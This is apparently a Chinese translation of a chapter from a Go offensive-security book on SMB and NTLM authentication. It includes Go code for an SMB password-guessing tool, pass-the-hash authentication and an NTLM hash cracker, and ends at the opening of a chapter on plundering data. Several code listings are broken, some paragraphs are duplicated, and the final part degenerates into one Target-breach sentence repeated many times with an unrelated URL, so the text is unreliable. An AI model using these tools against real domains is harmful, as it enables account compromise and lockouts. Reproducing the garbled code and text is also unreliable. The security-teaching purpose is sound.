SMB 消息包含用于跨网络验证用户和机器的安全令牌。类似于选择 SMB 方言的过程，身份验证机制的选择通过一系列会话设置（Session Setup）消息进行，允许客户端和服务器约定共同支持的类型。Active Directory 域通常使用 NTLM 安全提供程序（NTLMSSP），这是一种二进制位置协议，通过 NTLM 密码哈希结合挑战-响应令牌来跨网络验证用户。挑战-响应令牌就像是问题的加密答案；只有知道正确密码的实体才能回答。尽管本章专门关注 NTLMSSP，Kerberos 是另一种常见的认证机制。

将身份验证机制与 SMB 规范分离允许 SMB 在不同的环境中使用不同的认证方法，取决于域和企业安全需求以及客户端-服务器的支持。然而，将身份验证与 SMB 规范分离使得在 Go 中实现变得更加困难，因为身份令牌是抽象语法表示法（ASN.1）编码的。Go 提供了你可以用于二进制和 ASN.1 编码的标准包，但 Go 的 ASN.1 包并不是为了通用用途而设计的；因此，你必须考虑一些细微差别。

## 建立 SMB 会话

客户端和服务器执行以下过程以成功建立 SMB 2.1 会话并选择 NTLMSSP 方言：

- 客户端向服务器发送一个协商协议（Negotiate Protocol）请求。该消息包含了客户端支持的方言列表。
- 服务器返回一个协商协议响应（Negotiate Protocol response）消息，指示所选的方言。未来的消息将使用该方言。响应中包含了服务器支持的身份验证机制列表。
- 客户端选择支持的身份验证类型（例如 NTLMSSP），并使用该信息创建并向服务器发送一个 `Session Setup` 请求消息。该消息包含一个封装的安全结构，用于指示这是一个 NTLMSSP 协商请求（Negotiate request）。
- 服务器回复 `Session Setup` 响应消息。此消息表示需要进一步的处理，并包含一个服务器挑战令牌（challenge token）。
- 客户端计算用户的 NTLM 哈希值——使用域、用户和密码作为输入——并将其与服务器挑战、随机客户端挑战和其他数据结合生成响应。该响应包含在客户端发送给服务器的新 `Session Setup` 请求中。与第 3 步中发送的消息不同，封装的安全结构指示这是一个 NTLMSSP 身份验证请求（Authenticate request）。通过这种方式，服务器可以区分这两个 `Session Setup` SMB 请求。
- 服务器与权威资源（例如域控制器）进行交互，使用域凭据进行身份验证，以创建与 `value authoritative calculated` 匹配的挑战-响应信息。如果两者匹配，则客户端通过身份验证。服务器向客户端发回 `Session Setup` 响应消息，表示登录成功。此消息包含一个唯一的会话标识符，客户端可以使用它来跟踪会话状态。
- 客户端发送额外的消息来访问文件共享、命名管道、打印机等；每条消息都包含会话标识符作为引用，服务器通过它验证客户端的身份验证状态。

你现在可能开始看到 SMB 是有多么复杂，并理解为什么既没有标准库也没有第三方包实现了 SMB 规范。我们不采取全面的方法来讨论我们创建的库的每一个细微差别，而是专注于几个可以帮助你实现自己的定义良好的网络协议版本的、结构、消息或独特方面。本章将不再列出详尽的代码列表，而是讨论干货，以避免你产生信息过载。

你可以使用以下相关规范作为参考，但没有义务阅读每一份。通过 Google 搜索可以找到最新修订。

- MS-SMB2: 我们尝试遵循的 SMB2 规范。这是关注的核心规范，它封装了用于执行身份验证的通用安全服务应用程序编程接口（GSS-API）结构。
- MS-SPNG 和 RFC 4178: MS-NLMP 数据封装在其的 GSS-API 规范。该结构采用 ASN.1 编码。
- MS-NLMP: 用于理解 NTLMSSP 身份验证令牌结构和挑战-响应格式的规范。它包含了计算 NTLM 哈希和身份验证响应令牌等的公式和细节。与外部 GSS-API 容器不同，NTLMSSP 数据不是 ASN.1 编码的。
- ASN.1: 使用 ASN.1 格式对数据编码的规范。

在我们讨论包中有趣的代码片段之前，你应该先理解为了让 SMB 通信工作而需要克服的一些挑战。

## 使用结构体字段的混合编码

正如我们之前暗示的，SMB 规范要求大多数消息数据使用位置、二进制、小端、固定长度和变长长度编码。但某些字段需要进行 ASN.1 编码，这种编码使用显式标记标识符来表示字段索引、类型和长度。在这种情况下，ASN.1 子字段是可选的，且不受限于消息字段内的特定位置或顺序。这可能有助于澄清这一挑战。

在列表 6-1 中，你可以看到一个展示这些挑战的假设 `Message` 结构体。

```go
type Foo struct {
    X int
    Y []byte
}
type Message struct {
    A int // 二进制，位置编码
    B Foo // 规范要求的 ASN.1 编码
    C bool // 二进制，位置编码
}
```

**列表 6-1**：一个需要变长字段编码的结构体示例

问题的关键在于，你不能使用同一种编码方案来编码 `Message` 结构体中的所有类型，因为 `B`（一个 `Foo` 类型）被预期为 ASN.1 编码，而其他字段不是。

### 编写自定义序列化（Marshaling）和反序列化（Unmarshaling）接口

回想之前的章节，JSON 或 XML 等编码方案通过相同的编码格式递归编码结构体及其所有字段。这既干净又简单。在这里没有这种奢侈，因为 Go 的 `binary` 包行为也一样——它会无忧地递归编码所有结构体和结构体字段，但这对你来说行不通，因为消息需要混合编码：

```go
binary.Write(someWriter, binary.LittleEndian, message)
```

解决方案是创建一个接口，允许任意类型定义自定义的序列化反序列化逻辑（列表 6-2）。

```go
type BinaryMarshallable interface {
    MarshalBinary(*Metadata) ([]byte, error)
    UnmarshalBinary([]byte, *Metadata) error
}
```

**列表 6-2**：一个需要自定义序列化和反序列化方法的接口定义

接口 `BinaryMarshallable` 定义了两个必须实现的方法：`MarshalBinary()` 和 `UnmarshalBinary()`。不要过度担心传入函数的 `Metadata` 类型，因为它与理解主要功能无关。

## 包装接口

任何实现 `BinaryMarshallable` 接口的类型都可以控制自己的编码。遗憾的是，这并不像在 `Foo` 数据类型上定义几个函数那么简单。毕竟，你用于编码和解码二进制数据的 Go `binary.Write()` 和 `binary.Read()` 方法对你自定义定义的接口一无所知。你需要创建一个 `marshal()` 和 `unmarshal()` 包装函数，这些函数将检查数据以确定类型是否实现了 `BinaryMarshallable`，如列表 6-3 所示。

```go
func marshal(v interface{}, meta *Metadata) ([]byte, error) {
    bm, ok := v.(BinaryMarshallable)
    if ok {
        buf, err := bm.MarshalBinary(meta)
        if err != nil {
            return nil, err
        }
        return buf, nil
    }
    return nil, nil
}

func unmarshal(buf []byte, v interface{}, meta *Metadata) (interface{}, error) {
    bm, ok := v.(BinaryMarshallable)
    if ok {
        if err := bm.UnmarshalBinary(buf, meta); err != nil {
            return nil, err
        }
    }
    return nil, nil
}
```

**列表 6-3**：使用类型断言执行自定义序列化和反序列化

## 强制 ASN.1 编码

让我们看如何强制你的 `Foo` 类型进行 ASN.1 编码，同时让 `Message` 结构体中的其他字段保持不变。为了实现这一点，你需要在类型上定义 `MarshalBinary()` 和 `UnmarshalBinary()` 函数，如列表 6-4 所示。


```go
func (f *Foo) MarshalBinary(meta *encoder.Metadata) ([]byte, error) {
    buf, err := asn1.Marshal(*f)
    if err != nil {
        return nil, err
    }
    return buf, nil
}

func (f *Foo) Unmarshal(buf []byte, meta *encoder.Metadata) error {
    data := Foo{}
    if err := asn1.Unmarshal(buf, &data); err != nil {
        return err
    }
    *f = data
    return nil
}
```

列表 6-4：为 ASN.1 编码实现 `BinaryMarshallable` 接口

在 SMB 规范中。

位于 `https://github.com/blackhat-go/bhg/blob/master/ch-6/smb/ntlmssp/ntlmssp.go` 的 `ntlmssp` 包包含了 `MarshalBinary()` 和 `UnmarshalBinary()` 函数的另一种实现。尽管它没有演示 ASN.1，但起始代码展示了如何通过必要的元数据来处理任意数据类型的编码。这些元数据——变长字节切片的长度和偏移量——与编码过程密切相关。这些元数据引导我们进入了你需要解决的下一个挑战。

## 理解元数据和引用字段

如果你稍微深入研究 SMB 规范，你会发现某些消息包含了引用同一消息中其他字段的字段。例如，这些字段（取自 `Negotiate` 响应消息）引用包含实际值的变长字节切片的偏移和长度：

- `SecurityBufferOffset` (2 字节)：从 SMB2头部开始到安全缓冲区的偏移（以字节为单位）。
- `SecurityBufferLength` (2 字节)：安全缓冲区长度（以字节为单位）。

这些字段本质上充当了元数据。在消息规范的后续部分，你会找到数据实际所在的变长字段：

- `Buffer` (变长)：根据 `SecurityBufferOffset` 和 `SecurityBufferLength` 指定的包含响应安全缓冲区的变长缓冲区。该缓冲区 SHOULD 包含一个由第 3.3.5.4 节指定的 GSS 协议产生的令牌。如果 `SecurityBufferLength` 为 0，则此字段为空，并将使用客户端发起的认证（使用客户端选择的认证协议），而不是服务器发起的 SPNEGO 认证，如 [MS-AUTHSOD] 第 2.1.2.2 节所述。

通常来说，这就是 SMB 规范一致处理变长数据的方式：固定位置的长度和偏移字段描述了数据本身的大小和位置。这不仅适用于响应消息或 `Negotiate` 消息，而且你通常会在单个消息中发现多个使用这种模式的字段。实际上，只要你有变长字段，就会发现这种模式。元数据显式地指示消息接收者如何定位和提取数据。

这很有用，但它使编码策略变得复杂，因为你需要维护结构体内部不同字段之间的关系。例如，你不能仅仅只是序列化整个消息，因为由于元数据字段（例如长度和偏移量）在数据本身序列化之前（或者在偏移量的情况下，在数据之前的所有字段序列化之后）是不可知的。

## 理解 SMB 实现

本小节的剩余部分将介绍我们设计的 SMB 实现中一些复杂的细节。使用该包时不需要理解这些信息。

我们尝试了多种方法来处理引用数据，最终确定了一个结合结构体字段标签和反射的解决方案。回想一下，反射是一种程序可以检查自身的技术，特别是检查其自己的数据类型等内容。

字段标签（Field tags）与反射某种联系，因为它们定义了关于结构体字段的任意元数据。你可能在之前的 XML、MSPACK、JSON 编码示例中遇到过它们。例如，列表 6-5 使用结构体标签来定义 JSON 字段名。

```go
type Foo struct {
  A int `json:"a"`
  B string `json:"b"`
}
```

列表 6-5：一个定义 JSON 字段标签的结构体

Go 的 `reflect` 包包含了我们用于检查数据类型和提取字段标签的函数。在那个时候，只需要解析标签并对其值进行有意义的操作即可。在列表 6-6 中，你可以看到在 SMB 包中定义的结构体。

```go
type NegotiateRes struct {
  Header
  StructureSize uint16
  SecurityMode uint16
  DialectRevision uint16
  Reserved uint16
  ServerGuid []byte `smb:"fixed:16"`
  Capabilities uint32
  MaxTransSize uint32
  MaxReadSize uint32
  MaxSize uint32
  SystemTime uint64
  ServerStartTime uint64
  SecurityBufferOffset uint16 `smb:"offset:SecurityBlob"`
  SecurityBufferLength uint16 `smb:"len:SecurityBlob"`
  Reserved2 uint32
  SecurityBlob *gss.NegTokenInit
}
```

列表 6-6：使用 SMB 标签定义字段元数据 (/ch-6/smb/smb.go)

该类型使用了三个字段标签，通过 SMB 键识别：`fixed` ①、`offset` ② 和 `len` ③。请记住，我们选择这些名称都是随机的。你没有义务使用特定的名称。每个标签的意图如下：

- `fixed` 将 `[]byte` 识别为指定大小的固定长度字段。在这种情况下，`ServerGuid` 的长度为 6 字节。
- `offset` 定义了从结构体开始到变长数据缓冲区第一部分的字节数。该标签定义了字段名称——在此例中为 `SecurityBlob`——偏移量与之相关。预期同一结构体中存在一个该引用引名的字段。
- `len` 定义了变长数据缓冲区的长度。该标签定义了字段名称——在此例中为 `SecurityBlob`——`len` 与之相关。同一结构体中应该存在一个该引用引名的字段。

正如你可能注意到的，我们的标签不仅允许我们通过任意元数据在不同字段之间建立关系，还允许区分固定长度字节和变长数据。

## 解析和存储标签

在列表 6-7 中，便利函数 `parseTags()` 执行标签解析并将数据存储在名为 `TagMap` 的自定义 map 中。

```go
func parseTags(sf reflect.StructField) (*TagMap, error) {
	ret := &TagMap{
		m: make(map[string]interface{}),
		has: make(map[string]bool),
	}
	tag := sf.Tag.Get("smb")
	if tag == "" {
		return ret, nil
	}
	smbTags := strings.Split(tag, ",")
	for _, smbTag := range smbTags {
		tokens := strings.Split(smbTag, ":")
		switch tokens[0] {
		case "len", "offset", "count":
			if len(tokens) != 2 {
				return nil, errors.New("missing required tag. Expecting key:val")
			}
			ret.m[tokens[0]] = tokens[1]
			ret.has[tokens[0]] = true
		case "fixed":
			if len(tokens) != 2 {
				return nil, errors.New("missing required tag. Expecting key:val")
			}
			i, err := strconv.Atoi(tokens[1])
			if err != nil {
				return nil, err
			}
			ret.m[tokens[0]] = i
		}
	}
	return ret, nil
}
```

列表 6-7：解析结构标签 (/ch-6/smb/encoder/encoder.go)

## 调用 parseTags() 函数和创建 reflect.StructField 对象

现在，我们如何调用该函数以及如何创建 `reflect.StructField` 对象？为了回答这些问题，请查看列表 6-8 中的 `unmarshal()` 函数，它位于包含 `parseTags()` 便利函数的同一个源文件中。`unmarshal()` 函数非常长，所以我们只拼接最相关的部分。

```go
func unmarshal(buf []byte, v interface{}, meta *Metadata)(interface{}, error) {
	typev := reflect.TypeOf(v)
	value := reflect.Value(v)
	// ... code ...
	r := bytes.NewBuffer(buf)
	switch typev.Kind() {
	case reflect.Struct:
		// ... code ...
	case reflect.Uint8:
		// ... code ...
	case reflect.Uint16:
		// ... code ...
	case reflect.Uint32:
		// ... code ...
	case reflect.Uint64:
		// ... code ...
	case reflect.Slice, reflect.Array:
		// ... code ...
	default:
		// ... code ...
	}
	return errors.New("Unmarshal not implemented for kind:" + 
	typev.Kind.String()), nil
}
return nil, nil
}
```

列表 6-8: 使用反射动态反序列化未知类型 (/ch-6/smb/encoder/encoder.go)

`Unmarshal()` 函数使用 Go 的 `reflect` 包来获取目标接口的类型和值，我们的数据缓冲区将被反序列化到该接口中。这是必要的，因为为了将任意字节切片转换为结构体，必须知道结构体中有多少个字段，以及每个字段需要读取多少字节数据。例如，定义为 `uint16` 的字段消耗 2 个字节，而 `uint64` 则消耗 8 个字节。通过反射，我们查询目标接口以查看它是一个什么类型的数据类型，以及如何处理数据的读取。由于每种类型的逻辑都不同，我们通过调用 `type.Kind()` 对类型进行 `switch` 分判断，该方法返回一个 `reflect.Kind` 实例，指示我们正在处理的数据类型种类。你会发现我们为每个允许的数据类型都编写了单独的 `case`。

## 处理结构体

让我们看看列表 6-9 中的 `case` 块，它处理结构体类型，因为这很可能是初始的入口点。

```go
case reflect.Struct:
    m := &Metadata{
    Tags: &TagMap{},
    Lens: make(map[string]uint64),
    Parent: v,
    ParentBuf: buf,
    Offsets: make(map[string]uint64),
    CurrOffset: 0,
    }
    for i := 0; i < typev.NumField(); i++ {
        m.CurrField = typev.Field(i).Name
        tags, err := parseTags(typev.Field(i))
        if err != nil {
            return nil, err
        }
        m.Tags = tags
        var data interface{}
        switch typev.Field(i).Kind() {
        case reflect.Struct:
            data, err = unmarshal(buf[m.CurrOffset:],
            typev.Field(i).Interface(), m)
        default:
            data, err = unmarshal(buf[m.CurrOffset:],
            typev.Field(i).Interface(),)
        }
        if err != nil {
            return nil, err
        }
        typev.Field(i).Indirect().Set(ValueOf(data))
        v = reflect.Indirect(ValueOf(v)).Interface()
        meta.CurrOffset += m.CurrOffset
        return v, nil
    }
}
```

列表 6-9: 反序列化结构体类型 ((ch-6/smb/smb/encoder/encoder.go))

`case` 块开始定义了一个新的 `Metadata` 对象，该类型用于跟踪相关的元数据，包括当前缓冲区偏移量、字段标签和其他信息。使用我们的类型变量 `typev`，我们调用 `NumField()` 方法来获取结构体中的字段数量。它返回一个整数值，作为循环的约束条件。

在循环内部，我们可以通过调用类型的 `Field(index int)` 方法来提取当前字段。该方法返回 `reflect.StructField` 类型。你会发现我们在整个代码段中多次使用了该方法。可以将其想为通过索引值从切片中获取元素。我们的第一次使用是获取字段以提取其名称。例如，`SecurityBufferOffset` 和 `SecurityBlob` 是列表 6-6 中定义的 `NegotiRes` 结构体内的字段名。字段名被赋值给 `Metadata` 对象的 `CurField` 属性。第二次调用 `Field(index int)` 方法输入到列表 6-7 的 `parseTags()` 函数中。我们知道这个函数解析我们的结构体字段标签。标签被包含在我们的 `Metadata` 对象中，以便稍后跟踪和使用。

接下来，我们使用 `switch` 语句专门对字段类型进行操作。只有两种情况。第一种处理字段本身是结构体的情况，在这种情况下，我们对 `Unmarshal()` 函数进行递归调用，并将字段指针作为接口传递给它。第二种情况处理所有其他类型（基本类型、切片等），递归地调用 `Unmarshal()` 函数并将字段本身作为接口传递。这两种情况都进行了一些“特殊操作”，以使缓冲区从我们的当前偏移量开始移动。我们的递归调用最终返回一个 `interface()`，这是一个包含我们反序列化后的数据的类型。我们使用反射将当前字段的值设置为该接口数据。最后，我们会在缓冲区中推进当前的偏移量。

哎呀！你能看到这在开发上可能是多大的挑战吗？我们为每种输入都准备了单独的 `case`。幸运的是，处理结构体的 `case` 是最复杂的。

## 处理 uint16

如果你非常关注，你可能会问：你到底从缓冲哪里读取数据？答案是列表 6-9 中哪里都没有。回想一下，我们对 `Unmarshal()` 函数进行递归调用，每次我们都将内部字段传递给该函数。最终我们将到达基本数据类型。毕竟，在某一点，最内层的嵌套结构是由基本数据类型组成的。当我们遇到基本类型时，我们的代码将匹配最外层 `switch` 语句中的不同 `case`。例如，当我们遇到 `uint16` 数据类型时，这段代码将执行列表 6-10 中的 `case` 块。

```go
case reflect.Uint16:
    var ret uint16
    if err := binary.Read(r, binary.LittleEndian, &ret); err != nil {
        return nil, err
    }
    if meta.Tags.Has("len") {
        err := meta.Tags.GetInt("len")
        if err != nil {
            return nil, err
        }
        meta.Lens[meta.CurrField] = uint64(ret)
    }
    meta.CurrOffset += uint64(binary.Size(ret))
    return nil, err
}
```

列表 6-10: 反序列化 uint16 (ch-6/smb/encoder.go)

在这种情况下，我们调用 `binary.Read` 从缓冲区读取数据到一个变量。回想一下，我们对 `Unmarshal()` 函数进行递归调用，每次我们都将内部字段传递给该函数。最终我们将到达基本数据类型。毕竟，在某一点，最内层的嵌套结构是由基本数据类型组成的。当我们遇到基本类型时，我们的代码将匹配最外层 `switch` 语句中的不同 `case`。例如，当我们遇到 `uint16` 数据类型时，这段代码将执行列表 6-10 中的 `case` 块。接下来，我们检查 `len` 标签是否存在。如果存在，我们获取该值——即与该偏移量相关的数值。因为字段实际上位于 SMB 消息中，我们知道了需要读取多少字节。我们根据数据的大小推进当前偏移量。我们刚刚获取了元数据，将其存储在 `Metadata` 中维护字段名与长度关系的映射表中。

## 处理切片

在列表 6-11 中，你可以看到处理切片的 `case` 块，我们需要利用标签和元数据处理固定长度和变长的数据。


```
case reflect.Slice, reflect.Array:
switch type.Elem().Kind() {
	case reflect.Uint8:
	var length, offset int
	var error
	if meta.Tags.Has("fixed") {
	if length, err = meta.Tags.GetInt("fixed"); err != nil {
		return nil, err
	}
	// 固定长度字段推进偏移量
	meta.CurrOffset += uint64(length)
	} else {
    if val, ok := meta.Lens[meta.CurrField]; ok {
        length = int(val)
    } else {
        return nil, errors.New("结构体缺少变长字段")
    }
    if val, ok := meta.Offsets[meta.CurrField]; ok {
        offset = int(val)
    } else {
        // 映射表中未找到偏移。使用当前偏移量
        offset = int(meta.CurrOffset)
    }
    // 变长数据相对于父级/外部结构体。
// 重置指针到数据起始
r = bytes.NewBuffer(meta.ParentBuf(offset : offset+length))
    // 变长字段不会推进当前偏移量。
	}
	data := make([]byte, length)
	if err := binary.Read(r, binary.LittleEndian, &data); err != nil {
		return nil, err
	}
	data, nil
}
```

列表 6-11: 反序列化固定长度和变长的字节切片 (`/ch-6/smb/smb/encoder/encoder.go/`)

首先，我们使用反射来确定切片的元素类型。例如，`uint8` 的处理方式与 `uint32` 不同，因为每个元素的字节数不同。在这种情况下，我们只处理 `[uint8]` 切片。

获取值并将其赋值给长度 3。请记住，固定键的标签值是一个定义切片长度的整数。我们将使用此长度来推进后续读取的缓冲区偏移量 4。对于固定长度字段，偏移量保持默认值——零，因为它将始终出现在当前偏移处。可变长度切片要复杂一些，因为我们从 `Metadata` 结构中同时获取了长度 5 和偏移量 6 信息。字段使用其自身的名称作为数据查找的键。回想我们是如何正确填充的，然后我们创建一个所需长度 7 的切片，并在调用 `binary.Read(8)` 时使用它。再次，此函数足够智能，能够读取字节直到我们的目标切片被填满。

这是一段对自定义标签、反射和编码（带有一丝 SMB 的影子）深层领域极其极其详尽的旅程。让我们远离这些丑陋的内容，用 SMB 库做一些实用的事情。坦率地说，以下用例应该要简单得多。

## 使用 SMB 猜密码

我们将检查的第一个 SMB 用例是攻击者和渗透测试人员常用的用例：通过 SMB 进行在线密码猜测。你将尝试通过提供常见的用户名和密码对域进行身份验证。在深入之前，你需要使用以下 `get` 命令获取 SMB 程序包：

```
$ go get github.com/bhg/ch-6/smb
```

一旦安装了包，让我们开始编码。你将创建的代码（如列表 6-12 所示）接受换行符分隔用户名文件、密码、域和目标主机信息作为命令行参数。为了避免某些域的账户被锁定，你将对用户列表尝试单个密码，而不是对一个或多个用户尝试密码列表。

> **警告**

> 在线密码猜测可能会导致域账户锁定，从而有效导致拒绝服务攻击。在测试代码时要小心，并仅在你有授权测试的系统上运行此。

```go
func main() {
  if len(os.Args) != 5 {
    log.Fatall("Usage: <user/file> <password> <domain><target_host>")
  }

  buf, err := ioutil.ReadFile(os.Args[1])
  if err != nil {
    log.Fatall(err)
  }

  options := smb.Options{
    Password: os.Args[2],
    Domain: os.Args[3],
    Host: os.Args[4],
    Port: 445,
  }

  users := bytes.Split(buf, []byte(`\n`))
  for _, user := range users {
    session, err := smb.NewSession(options, false)
    if err != nil {
      fmt.Printf("[%s] Login failed: %s%%s [%s]\n",
        options.Domain,
        options.User,
        options.Password)
      continue
    }
    defer session.Close()
    if session.IsAuthenticated({
	fmt.Printf("[+] Success : %s\\%s [%s]\n",
	options.Domain,
	options.User,
	options.Password)
	}
  }
}
```

列表 6-12：利用 SMB 包进行在线密码猜测 (`/ch-6/password-guessing/main.go`)

SMB 包基于会话（`sessions`）操作。要建立会话，你首先初始化一个 `smb.Options` 实例，它将包含你所有的会话选项，包括目标主机、用户、密码、端口和域 1。接下来，你遍历你的每个目标用户 2，相应地设置 `options.User` 值 3，并调用 `smb.NewSession()` 4。此函数在后台为你承担了大量繁重工作：它协商 SMB 方言和身份验证机制，然后对远程目标进行身份验证。如果身份验证失败，该函数将返回一个错误，并且会话结构体上的布尔值字段 `IsAuthenticated` 将根据结果进行填充。然后，它将检查该值以查看身份验证是否成功，如果成功，则显示成功消息 5。

这就是创建一个在线密码猜测工具的所有步骤。

## 使用 PASS-THE-HASH（哈希传递）技术重用密码

Pass-the-hash 技术允许攻击者使用密码的 NTLM 哈希值进行 SMB 身份验证，即使攻击者没有明文密码。本节将向你介绍该概念并展示其实现。

Pass-the-hash 是实现典型的活动目录（Active Directory）攻击的捷径，在这种攻击中攻击者获得初始立足点、提升权限并在网络中横向移动，直到他们获得了实现目标所需的访问级别。活动目录域的破解通常遵循此列表所示的路线图，假设它们是通过漏洞而非密码猜测等手段发生的：

- 1. 攻击者利用漏洞并在网络中获得立足点。
- 2. 攻击者在受侵害的系统上提升权限。
- 3. 攻击者从 LSASS 中提取哈希或明文凭据。
- 4. 攻击者尝试通过离线破解恢复本地管理员密码。
- 5. 攻击者尝试使用管理员凭据对其他机器进行身份验证

然而，NTLMSSP 身份验证即使你在第 3 或第 4 步中未能恢复明文密码，你也可以在第 5 步中使用密码的 NTLM 哈希值进行 SMB 身份验证——也就是说，即传递哈希。

（注：原文后续存在大量重复段落，此处已按要求去重处理）

（其他）不允许基于哈希的认证，因为它们要么不受支持，要么不是默认配置。如果你的攻击链需要访问这些服务之一，你将需要一个明文密码。在接下来的章节中，你将了解哈希是如何计算的，以及如何创建一个基本的密码破解器。

## 计算哈希

在列表 6-15 中，你将执行计算哈希的魔法。

```
func NewAuthenticatePass(domain, user, workstation, password string, c Challenge) Authenticate
{
  // Assume domain, user, and workstation are not unicode
  nthash := Nowfv2(password, user, domain)
  lmhash := Lmwfv2(password, user, domain)
  return NewAuthenticate(domain, user, workstation, nthash, lmhash)
}
```

```go
func NewAuthenticateHash(domain, user, workstation, hash string, c Challenge) Authenticate
{
  // Assume domain, user, and workstation are not unicode
  buf := make([]byte, len(hash)/2)
  hex.Decode(buf, []byte(hash))
  return NewAuthenticate(domain, user, workstation, buf, buf, c)
}
```

列表 6-15: 计算哈希 (`/ch-6/smb/ntlmsp/ntlmsp.go`)

调用适当函数的逻辑在其他地方定义，但你会发现这两个函数是相似的。真正的区别在于`NewAuthenticatePass()` 函数中基于密码的认证在生成身份验证消息之前计算哈希，而 `NewAuthenticateHash()` 函数则跳过了这一步，并直接使用提供的哈希作为输入来生成消息。

## 恢复 NTLM 哈希

在列表 6-16 中，你可以看到一个通过破解提供的 NTLM 哈希来恢复密码的实用程序。

```go
func main() {
	if len(os.Args) != 5 {
		log.Fatall("Usage: <directory/file> <user> <domain> <hash")
	}

	hash := make([]byte, len(os.Args[4])/2)
	_, err := hex.Decode(hash, []byte(os.Args[4]))
	if err != nil {
		log.Fatall(err)
	}

	f, err := ioutil.ReadFile(os.Args[1])
	if err != nil {
		log.Fatall(err)
	}

	var found string
	passwords := bytes.Split(f, []byte("\n"))
	for _, password := range passwords {
		h := ntlmssp.Ntofowf2(string(password), os.Args[2], os.Args[3])
		if bytes.Equal(hash, h) {
			found := string(password)
			break
		}
	}
	if found != "" {
		fmt.Printf("+] Recovered password: %s\n", found)
	} else {
		fmt.Printf("[-] Failed to recover password")
	}
}
```

列表 6-16: NTLM 哈希破解 (`/ch-6/password-recovery/main.go`)

该实用程序从命令行参数读取哈希，将其解码为 `[byte]` ❶。然后你遍历提供的密码列表 ➁，通过调用我们之前讨论过的 `ntmssp.Nowfwv2()` 函数 ➳ 计算每个条目的哈希。

最后，你将计算出的哈希与提供的值 ⁴ 进行比对。如果它们匹配，说明找到了，并跳出循环。

## 总结

你已经对 SMB 进行了详细检查，涉及了协议细节、反射、结构字段标记以及混合编码！你还学习了哈希传递攻击（pass-the-hash）的工作原理，以及一些利用 SMB 包的实用程序。

为了继续学习，我们鼓励你探索额外的 SMB 通信，特别是与远程代码执行（例如 PsExec）。使用网络嗅探器（如 Wireshark）捕获数据包并评估此功能是如何工作的。

在下一章中，我们将从网络协议细节转向专注于攻击和掠夺数据库。

# 7

## 滥用数据库和文件系统


现在我们已经涵盖了大多数用于活动服务侦问、命令与控制以及其他恶意活动的常用网络协议，让我们转向另一个同样重要的话题：数据掠夺。

虽然数据掠夺可能没有初始利用、网络横向移动或权限提升那么令人兴奋，但它是整个攻击链的关键组成部分。毕竟，我们通常需要数据来执行那些活动。通常，这些数据对攻击者具有切实的价值。虽然入侵一个机构是令人兴奋的，但数据本身对攻击者来说是丰厚的奖励，对组织则是毁灭性的损失。

根据你阅读的研究，2020 年的泄露可能导致一个组织损失约 400 万到 700 万美元。IBM 的一项研究估计，每被盗一条记录的成本为 129 美元到 355 美元。甚至，黑客可以通过地下市场以每张 7 到 80 美元的价格出售信用卡赚大钱（`http://online.wsj.com/public/resources/documents/securework_hacker_annualreport.pdf`）。


Target泄露导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card`--286

Target泄露导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` (https://docs.docker.com/install/linux/docker-ubuntu/) 导致了4000万卡的泄露。在某些情况下，`Target-2014-happened-to-businessinsider.com-35-per-card` 